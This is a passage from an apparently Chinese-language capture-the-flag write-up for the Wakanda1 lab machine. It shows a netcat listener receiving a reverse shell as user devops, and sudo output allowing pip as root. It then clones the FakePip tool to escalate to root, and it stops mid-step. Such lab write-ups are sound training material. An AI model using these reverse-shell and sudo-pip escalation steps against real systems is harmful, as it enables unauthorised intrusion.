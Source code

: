 写入之后过一段时间我们就能连上主机了（以devops的身份

```bash
nc -lvp 2333
listening on [any] 2333 ... 
192.168.31.154: inverse host lookup failed: Unknown host
connect to [192.168.31.51] from (UNKNOWN) [192.168.31.154] 34839
j
/bin/bash: line 1: j: command not found
ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
```

在/home/devops下拿到flag2.txt

最后一步就是提权到root了

```
sudo -l 
Matching Defaults entries for devops on Wakanda1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip
```

sudo -l发现我们可以用 /usr/bin/pip

关于这个命令

有Fakepip这个工具可以利用

```
root@kali:~# git clone https://github.com/0x00-0x00/FakePip.git
Cloning into 'FakePip'...
remote: Enumerating objects: 23, done.
remote: Total 23 (delta 0), reused 0 (delta 0), pack-reused 23
Unpacking objects: 100% (23/23), done.
root@kali:~# cd FakePip/
root@kali:~/FakePip# vim setup.py
```
